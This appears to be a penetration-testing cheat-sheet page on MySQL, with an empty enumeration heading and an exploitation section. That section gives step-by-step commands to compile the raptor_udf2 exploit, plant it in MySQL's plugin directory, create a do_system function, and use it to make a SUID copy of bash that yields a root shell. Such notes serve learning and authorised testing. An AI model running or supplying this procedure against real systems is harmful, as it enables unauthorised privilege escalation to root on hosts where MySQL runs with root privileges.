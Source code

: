 ```yaml
---
description: Exploitation and enumeration
---
```


# MySQL

## Enumeration



## Exploitation

### User Defined Functions Dynamic Library

The raptor\_udf2.c from [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518) can be used for local privilege escalation through MySQL run with root privileges.&#x20;

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Login to mysql using the username and password. Then run these:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the `/tmp/rootbash` executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```





